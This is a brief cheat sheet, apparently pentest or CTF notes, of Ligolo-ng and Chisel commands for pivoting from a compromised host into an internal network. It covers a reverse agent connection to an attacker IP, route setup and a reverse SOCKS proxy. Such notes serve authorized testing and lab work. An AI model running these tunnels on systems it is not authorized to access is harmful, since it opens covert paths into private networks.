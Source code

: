 ## Start Ligolo-ng proxy on attacker

```bash
./proxy -selfcert
```

## Connect Ligolo-ng agent from compromised host

```bash
./agent -connect 10.10.14.5:11601 -ignore-cert
```

## Start Ligolo-ng tunnel in proxy session

```bash
session
start
```

## Add route for Ligolo-ng tunnel

```bash
ip route add 192.168.1.0/24 dev ligolo
```

## List Ligolo-ng sessions

```bash
session
```

## Stop Ligolo-ng tunnel

```bash
stop
```

## Create Chisel server on attacker

```bash
./chisel server -p 8080 --reverse
```

## Create Chisel client reverse SOCKS proxy

```bash
./chisel client 10.10.14.5:8080 R:socks
```

## Create Chisel client local port forward

```bash
./chisel client 10.10.14.5:8080 L:8081:localhost:80
```
